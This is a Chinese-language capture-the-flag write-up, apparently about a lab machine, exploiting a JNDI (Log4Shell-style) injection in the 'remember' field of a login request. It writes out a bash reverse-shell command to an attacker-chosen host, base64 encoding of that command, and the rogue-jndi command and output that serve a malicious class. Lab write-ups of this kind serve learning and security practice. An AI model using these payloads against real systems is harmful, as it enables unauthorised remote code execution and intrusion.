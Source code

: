 

讲完了原理我们回到靶机，根据搜索。JDNI注入点是 `/api/login` POST数据中的remember字段。我们登录时候勾选remember me，就会往`/api/login`发送含json的数据包。为了验证漏洞存在的真实性，我们抓包写一个JNDI查询，并用抓包工具比如tcpdump监控流量，看看是否执行查询了：

原始数据包：![image-20250919161824062](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250919161824062.png)

修改后：

![image-20250919161942735](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250919161942735.png)

因为我们的JNDI查询的`{}`会破坏JSON结构，所以这里要加`"`。

然后tcpdump监听一下389端口，因为ldap对应的端口就是389：

![image-20250919162113999](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250919162113999.png)

可以看到，发送完数据包以后成功监听到ldap连接请求。

我们首先需要一个工具提供ldap服务，这样才能指定JNDI查询结果到我们的恶意类。

可以使用`rogue-jndi`，`git clone`下载。但是这是一个java程序，我们需要JDK环境，kali自带有不用担心。但是我们还需要一个工具`maven`来构建这个工具。

```
sudo apt install maven
#检查是否安装成功
mvn -v   
#在/roguo-jndi下
mvn package
```

我们payload肯定是反弹shell使用经典指令`bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1`

但是为了特殊字符被Java运行时、Bash或中间的网络设备错误地解析，导致命令执行失败，我们需要进行base64编码。可以使用工具如cyberchef，也可以直接在命令行编码：

`echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64`

然后使用工具:

`java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"`

这个工具会自动生成一个执行--command参数后指令的恶意类。受害靶机拿到这个解析到的恶意类并执行，就成功反弹了一个shell

这里有一个bash -c后面要不要引号的问题。第二个使用工具时候应该是不要的，相应的-c后面不能再有空格了，这样才会被当成一个完整字符串。第一个反弹的我觉得还是要加引号。

启动rogue-jndi后，如下：

```
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.16.34:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.16.34:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.34:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.34:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.16.34:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.16.34:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.16.34:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.16.34:1389/o=reference to artsploit.controllers.RemoteReference
```
